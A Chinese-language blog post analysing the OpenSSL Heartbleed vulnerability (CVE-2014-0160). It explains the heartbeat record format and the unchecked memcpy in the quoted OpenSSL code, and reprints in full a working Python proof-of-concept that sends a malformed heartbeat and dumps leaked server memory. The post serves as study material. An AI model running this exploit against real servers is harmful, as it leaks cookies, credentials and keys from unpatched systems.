 文章参考内容来源：
[乌云-关于OpenSSL心脏出血的分析][1]
[github-py][2] （用来学习）    
[Heartbleed 实战：一个影响无数网站的缓冲区溢出漏洞][3]  
[Openssl 漏洞POC学习][4]


好久不冒泡 =w=， 刚好最近互联网界出了件大事，就是openssl的heartbleed，波及范围之广就不用多说了，反正应该是很多人睡不着觉了。=w=我呢，就对这个事件做一次原理的记录。

我们看heartbleed这个名字，搞过网络编程的同学应该都知道心跳包，很常见，是一种用来检测对端是否还存活的手段，防止大量已死的对端还在占用链接，而ssl也是有heartbeat的，ssl的心跳包协议是这个样子：
心跳包类型，1byte
载荷长度，2byte，
载荷内容，最大为2^14
协议还规定，收到心跳包以后将载荷回显，表示还活着，那么我们看ssl的代码：

        hbtype = *p++;
        n2s(p, payload);
        pl = p;

 这段代码的意思： hbyte首先取得心跳包的类型，n2s这个函数是什么意思呢？是将p指向的两个字节，也就是载荷的长度放入payload变量中，并且将p + 2, 指向载荷。

再来看另一段代码(节选)：  

        if (hbtype == TLS1_HB_REQUEST) {
                unsigned char *buffer, *bp;
                int r;

                buffer = OPENSSL_malloc(1 + 2 + payload + padding);
                bp = buffer;

                *bp++ = TLS1_HB_RESPONSE;
                s2n(payload, bp);
                memcpy(bp, pl, payload);
                bp += payload;
        }

如果发来的包是心跳包，那么首先malloc，这里我们看到是65535 这么多个字节，s2n是什么意思呢？就是将payload也就是长度放入bp中。然后拷贝这么多字节到bp，也就是缓冲区当中。

也就是说，可能payload是虚假的，比如我实际心跳包数据只有一个字节，我写一个65535 -100 的数字到payload中，OpenSSL这里是完全不检查实际长度的。那么将近64kb的内存会被泄漏出来，而且这64kb是pl的，在SSLv3记录的附近，一些cookie, 甚至usrname, password都不能幸免。

那么我们来看python脚本攻击的代码， 代码如下，地址文章的最开始有。

<!--more-->

    #!/usr/bin/python
    
    # Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
    # The author disclaims copyright to this source code.
    
    import sys
    import struct
    import socket
    import time
    import select
    import re
    from optparse import OptionParser
    
    options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
    options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
    
    def h2bin(x):
        return x.replace(' ', '').replace('\n', '').decode('hex')
    
    hello = h2bin('''
    16 03 02 00  dc 01 00 00 d8 03 02 53
    43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
    bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
    00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
    00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
    c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
    c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
    c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
    c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
    00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
    03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
    00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
    00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
    00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
    00 0f 00 01 01                                  
    ''')
    
    hb = h2bin(''' 
    18 03 02 00 03
    01 40 00
    ''')
    
    def hexdump(s):
        for b in xrange(0, len(s), 16):
            lin = [c for c in s[b : b + 16]]
            hxdat = ' '.join('%02X' % ord(c) for c in lin)
            pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
            print '  %04x: %-48s %s' % (b, hxdat, pdat)
        print
    
    def recvall(s, length, timeout=5):
        endtime = time.time() + timeout
        rdata = ''
        remain = length
        while remain > 0:
            rtime = endtime - time.time() 
            if rtime < 0:
                return None
            r, w, e = select.select([s], [], [], 5)
            if s in r:
                data = s.recv(remain)
                # EOF?
                if not data:
                    return None
                rdata += data
                remain -= len(data)
        return rdata
            
    
    def recvmsg(s):
        hdr = recvall(s, 5)
        if hdr is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return None, None, None
        typ, ver, ln = struct.unpack('>BHH', hdr)
        pay = recvall(s, ln, 10)
        if pay is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return None, None, None
        print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
        return typ, ver, pay
    
    def hit_hb(s):
        s.send(hb)
        while True:
            typ, ver, pay = recvmsg(s)
            if typ is None:
                print 'No heartbeat response received, server likely not vulnerable'
                return False
    
            if typ == 24:
                print 'Received heartbeat response:'
                hexdump(pay)
                if len(pay) > 3:
                    print 'WARNING: server returned more data than it should - server is vulnerable!'
                else:
                    print 'Server processed malformed heartbeat, but did not return any extra data.'
                return True
    
            if typ == 21:
                print 'Received alert:'
                hexdump(pay)
                print 'Server returned error, likely not vulnerable'
                return False
    
    def main():
        opts, args = options.parse_args()
        if len(args) < 1:
            options.print_help()
            return
    
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        print 'Connecting...'
        sys.stdout.flush()
        s.connect((args[0], opts.port))
        print 'Sending Client Hello...'
        sys.stdout.flush()
        s.send(hello)
        print 'Waiting for Server Hello...'
        sys.stdout.flush()
        while True:
            typ, ver, pay = recvmsg(s)
            if typ == None:
                print 'Server closed connection without sending Server Hello.'
                return
            # Look for server hello done message.
            if typ == 22 and ord(pay[0]) == 0x0E:
                break
    
        print 'Sending heartbeat request...'
        sys.stdout.flush()
        s.send(hb)
        hit_hb(s)
    
    if __name__ == '__main__':
        main()

重点在与hb这个包，根据协议，第0位是心跳包的类型，1，2是Openssl的版本类型，3， 4是message的长度， 5位是message的类型，6,7是payload length，可以看到没有实际的payload，那么周围的信息全部会被dump出来，这个就是核心的代码。

这次的事件也算给自己以后写代码提个醒 ，不能太过相信用户。嘛。新一轮的改密码风波来了，我总有预感，这事还没结束。 ^ ^

  [1]: http://drops.wooyun.org/papers/1381
  [2]: https://github.com/musalbas/heartbleed-masstest
  [3]: http://elevencitys.com/?p=7254
  [4]: http://blog.csdn.net/youfuchen/article/details/23279547
